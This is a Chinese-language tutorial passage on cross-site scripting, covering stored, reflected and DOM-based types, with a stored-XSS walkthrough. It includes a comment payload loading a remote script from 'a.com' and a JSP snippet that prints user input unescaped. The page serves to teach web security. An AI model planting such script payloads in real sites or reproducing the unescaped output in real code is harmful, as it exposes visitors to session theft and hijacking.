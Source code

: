 

# 跨站脚本攻击(XSS - Cross Site Scripting)


* Acunetix_Web_Vulnerability_Scanner_V9
* arachni-0.4.2-0.4
* Pangolin_jb51.rar

## 原理
Web程序将数据直接作为HTML显示（未进行HTML特殊字符转义、script脚本过滤），在浏览器端显示的这些内容的时候，激活其中包含的JavaScript恶意脚本，这些脚本可以用来获取用户敏感信息，追踪用户浏览历史、将用户诱导至其他网站等。

更多攻击方式请参考：《[XSS Filter Evasion Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)》

## 分类

|风险代码存在于？|数据库中|HTTP响应中|浏览器构建的DOM中|
|---|---|---|---|
|Stored XSS Attacks     |Yes|Yes|Yes|
|Reflected XSS Attacks  |   |Yes|Yes|
|DOM Based XSS          |   |   |Yes|



### Stored XSS Attacks
风险代码被先持久存储于服务器上（比如：数据库中），然后再读取出来显示到浏览器。比如在博客上发表文章、发表评论。

攻击流程示例：

1. 恶意用户A发现某个博客系统B对博文的评论未做严格检查，而允许注入Javascript代码。
1. 恶意用户A找到一个知名度高的一篇访问量大的博文，发表以下评论代码：

    ```html
    <script src="http://a.com/xss.js"></script>
    楼主的帖子实在是写得太好了。文笔流畅,修辞得体,深得魏晋诸朝遗风,
    更将唐风宋骨发扬得入木三分,能在有生之年看见楼主的这个帖子。
    实在是我三生之幸啊。......
    ```

1. 博客系统B使用以下方式显示回帖（JSP语法）：

    ```markup
    回帖人：<%=comment.userId %>，回帖内容是：<%= comment.content %>
    ```

1. 后果：每个读此博文并看到该评论的受害者都会加载并执行其中的恶意代码。


### Reflected XSS Attacks
风险代码并没有被持久存储，而是在服务器端转了一圈之后就直接显示在生成的动态HTML中。
这种攻击方式常被以HTML邮件的方式发送给潜在受害者。
